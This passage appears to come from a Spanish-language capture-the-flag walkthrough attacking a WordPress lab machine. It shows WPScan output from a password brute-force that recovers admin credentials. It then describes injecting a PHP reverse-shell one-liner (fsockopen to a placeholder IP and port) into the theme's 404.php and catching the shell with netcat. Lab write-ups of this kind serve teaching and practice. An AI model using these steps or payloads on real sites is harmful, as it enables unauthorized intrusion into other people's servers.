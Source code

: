 ```
[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=========================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - C0ldd / 9876543210                                                                                                                                                          
Trying C0ldd / franklin Time: 00:00:26 <                                                                                                       > (1225 / 14345617)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: C0ldd, Password: 9876543210

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jun 30 14:06:32 2024
[+] Requests Done: 1407
[+] Cached Requests: 5
[+] Data Sent: 453.628 KB
[+] Data Received: 22.861 MB
[+] Memory used: 287.586 MB
[+] Elapsed time: 00:00:35
```

Vemos que sacamos las credenciales...

```
User = C0ldd
Password = 9876543210
```

Por lo que nos logeamos en el panel de login con esas credenciales, una vez dentro nos vamos a `Appearance` y nos vamos a `Theme`, dentro del mismo nos vamos a `404.php` para inyectar un codigo de `Reverse Shell`...

```php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Le damos a `Update File` pero estando a la escucha...

```shell
nc -lvnp <PORT>
```

Nos vamos a la pagina principal, pinchamos en algun lado para que nos redirija a una `URL` de `wordpress` y quitar algunos caracteres para que nos salga un `404` pero de `wordpress` y tendriamos una shell con el usuario `www-data`...
